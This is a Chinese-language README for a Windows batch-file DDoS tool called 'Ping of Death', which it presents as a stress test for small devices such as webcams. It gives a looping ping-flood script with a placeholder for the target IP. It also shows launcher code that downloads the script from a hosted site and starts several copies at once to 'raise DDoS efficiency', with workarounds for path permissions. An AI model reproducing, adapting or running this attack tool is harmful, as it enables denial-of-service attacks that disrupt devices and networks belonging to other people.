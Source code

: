 # Ping of Death：使用bat进行DDOS  
## 介绍
“Ping of Death” 是一个通过bat批量处理文件来进行DDOS的项目，你可以用它来进行对网络摄像头等小型设备进行压力测试。
## 下载
### pingofdeath.bat
我们提供**单个执行文件**，您可以使用它在**断开互联网**的情况下使用。[点击这里下载pingofdeath.bat](https://pingofdeath.vercel.app/pingofdeath.bat)  
### startofping.bat
同时，在**联网的情况**下我们也提供更高效的启动器，集成**下载**和**运行**功能。在默认情况下，你最多可以通过它一次**启动10个**pingofdeath.bat。你可以[点击这里下载startofping.bat](https://pingofdeath.vercel.app/startofping.bat)  
## 配置
startofping.bat并不需要特别配置，您只需要配置pingofdeath.bat即可。  
这里提供源代码参考，你只需要**替换你的目标IP**即可。

    :loop
    ping <填写你的IP> -l 65500 -w 1 -n 1
    goto :loop
****
## 解读  
### pingofdeath.bat  
ping 数据包也可以通过向目标 IP 地址发送连续的 ping 数据包来执行拒绝服务攻击。持续 ping 会导致目标系统的缓冲区溢出，并导致目标系统崩溃。   
一个 ping 数据包的大小通常为 56 字节或 84 字节（包括 IP 标头）。但是，一个 ping 数据包也可以最大为 65,536 字节。  
并非所有计算机都可以处理大于固定大小的数据。因此，当一个 ping of death 数据包从源计算机发送到目标计算机时，ping 数据包会被分割成更小的数据包组。  
一个片段大小为 8 个八位字节。当这些数据包到达目标计算机时，它们会分段到达。因此，目标计算机重新组装成块收到的格式错误的数据包。  
但是，整个组装的数据包会导致目标计算机的缓冲区溢出。  
这种缓冲流经常导致系统崩溃，使系统更容易受到攻击。  
### startofping.bat
这是pingofdeath.bat的启动器，它包括下载和运行两种功能。
下载功能很简单，[百度知道](https://zhidao.baidu.com/question/2015853793461382908.html)里面有回答。  
但是值得注意的是，如果你使用了上面的代码，我们需要稍作修改，因为这可能会遇到权限问题，具体在下面说明。  
考虑到大部分用户会把文件放在C盘（桌面），我们没有管理员权限，所以就制定了两种下载方案。
####  1.放在D盘  
考虑到不同系统对于C盘权限要求不同，我们选择把文件放在D盘。  


    ::设置文件保存目录，若下载至当前目录，请留空  
    set Save=D:\
注意，上面的代码会创建一个DownloadFile.vbs文件来下载startofping.bat。由于权限问题，我们需要指定路径。

    ::原代码
    echo End Sub)>DownloadFile.vbs
    ::修改为
    echo End Sub)>D:\DownloadFile.vbs
最后，我们需要启动下载的文件。我们在这里重复5次来加大DDOS效率。  

    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
####  2.放在C盘
考虑到极个别电脑只有C盘一个盘符（虽然这种可能性极小），我们还是准备了C盘方案。经检验，Windows11系统的C:\Users\Public\是可以无权限使用的。所以同理：  

    ::设置文件保存目录，若下载至当前目录，请留空
    set Save=C:\Users\Public\
更改DownloadFile.vbs文件指定路径。

    ::原代码
    echo End Sub)>DownloadFile.vbs
    ::修改为
    echo End Sub)>C:\Users\Public\DownloadFile.vbs
最后，我们启动下载的文件。  

    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
至此，代码就解读完成了。 
**** 
## 存放服务器
由于GitHubPage好像禁止了直接通过http下载文件，我们就使用了vercle服务，文件直接从vercel服务器获取pingofdeath.bat。  
****
作者的[博客](https://gloridust.tk)